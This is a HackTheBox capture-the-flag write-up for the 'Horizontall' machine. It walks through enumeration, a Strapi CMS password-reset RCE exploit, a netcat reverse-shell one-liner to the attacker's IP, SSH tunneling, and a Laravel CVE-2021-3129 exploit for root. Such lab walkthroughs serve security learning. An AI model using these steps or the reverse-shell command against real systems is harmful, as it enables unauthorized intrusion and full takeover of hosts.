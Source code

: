 ```yaml
---
title: "HackTheBox - Horizontall"
author: Nasrallah
description: ""
date: 2023-01-23 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, rce, tunneling, cve]
img_path: /assets/img/hackthebox/machines/horizontall
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing **Horizontall** from [HackTheBox](https://www.hackthebox.com).

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.11.105
Host is up (0.66s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
|_  256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://horizontall.htb
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

We found two open ports, 22 running ssh and 80 running nginx web server

### Web
 
From the nmap scan we see that the web server redirects to `horizontall.htb`, so let's add that to /etc/hosts and then navigate to the web page.

![](1.png)

Noting really useful in this page.

### Sub-domain

Let's enumerate for subdomains using `ffuf`.

```terminal
└──╼ $ ffuf -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://horizontall.htb/ -H "Host: FUZZ.horizontall.htb" -fw 7 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.4.1-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://horizontall.htb/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.horizontall.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response words: 7
________________________________________________

www                     [Status: 200, Size: 901, Words: 43, Lines: 2, Duration: 199ms]
api-prod                [Status: 200, Size: 413, Words: 76, Lines: 20, Duration: 162ms]

```

We found `api-prod` subdomain, let's add it to /etc/hosts.

![](2.png)

Also nothing in this page.

Let's check the headers and see if it reveals anything.

![](4.png)

We see the website is powered by `Strapi CMS`.

A quick search on exploit-db we see that it has some serious vulnerability.

![](3.png)

## **Foothold**

Let's download this [exploit](https://www.exploit-db.com/exploits/50239) and run it.

![](5.png)

Great! We got a new password for admin, let's login.

![](6.png)

Besides the new password, we also got a prompt for executing command on the target, unfortunately this is a blid RCE and we won't a get an output.

We can setup a listener on our machine and run the following command to get a reverse shell.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.17.90 1234 >/tmp/f
```

![](7.png)

![](8.png)

## **Privilege Escalation**

By checking the /etc/passwd file, we see that user strapi which is the current user we have has a shell, so i copied my ssh public key to a newly created .ssh directory and ssh'ed to the machine.

Now we check the application's files.

![](9.png)

We managed to find a password for mysql but that leads to nothing.

Now let's list listening ports with `netstat -tulpn`

![](13.png)

port 80 and 22 we found earlier with nmap, 3306 is the mysql server, port 1337 is used by strapi, so we're left with port 8000.

Assuming it's running a web server, i used `curl` to send a get request and it was a web page.

### Tunneling

Using ssh tunneling, let's make a local port forward so that we can access the webpage from our local machine.

```bash
ssh -L 8000:localhost:8000 strapi@10.10.11.105 -i ~/CTF/www/id_rsa
```

Now let's navigate to the web page at localhost:8000

![](10.png)

The website is using Laravel version 8 which after some research we find it is vulnerable to command execution.

I found this [exploit](https://github.com/nth347/CVE-2021-3129_exploit) that worked well for me. Let's download it and use it.

![](11.png)

We got code execution as root.

The next command we're gonna use will give bash suid bit which allows us to easily get a root shell.

![](12.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
